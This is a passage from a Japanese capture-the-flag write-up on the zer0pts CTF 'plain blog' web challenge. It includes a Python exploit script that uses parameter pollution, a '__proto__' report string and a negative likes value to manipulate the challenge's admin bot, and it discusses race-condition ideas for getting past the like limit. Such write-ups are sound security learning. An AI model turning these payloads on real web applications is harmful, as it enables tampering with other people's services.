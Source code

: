 ```python
        data={
            "title": title,
            "content": content,
        }
    )
    return res.json()["post"]["id"]


def update_note(id: str, data):
    res = httpx.put(
        f"{API_BASE_URL}/api/post/{id}",
        data=data,
    )
    return res.json()


uuid1 = create_note("x", "x")

uuid2 = create_note("x", "x")
update_note(uuid2, {"headers[Content-Type]": "text/plain", "title[x]": "", "content[x]": "", "like[x]": ""})

# botにいいねしてもらうpostのURL
print(f"{FRONTEND_BASE_URL}/#page=post&id={uuid1}")

# reportする文字列
print(f"{urllib.parse.quote(uuid1+'/like?likes=-100000000000000000000000000000#')},{uuid2},__proto__")
```

うまくできてます:
![](/images/2023/20230717-zer0pts-ctf-plain-blog-03.png)

あとは
```ruby
    if (posts[id]['like'] + likes) > MAX_LIKES
        return { 'error' => 'too much likes' }.to_json
    end
    posts[id]['like'] += likes

    # get 1,000,000,000,000 likes to capture the flag!
    if posts[id]['like'] >= 1_000_000_000_000
        posts[id]['permission']['flag'] = true
    end
```
を突破するだけ...いや不可能です。

`MAX_LIKES`は`5000`なので、現実的な時間内に`1_000_000_000_000`以上にすることはできません。

1. いいね数を`-1_000_000_000_000`に吹き飛ばす
2. race conditionで`1_000_000_000_000`いいねを2回以上瞬間的に実行させる

ということも考えましたが、adminがいいねするのはreportあたり1度であり、また、上記処理を重たくしてrace conditionを成功させることも現実的ではありません。Rubyなのでオーバーフローもしません。困った...


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。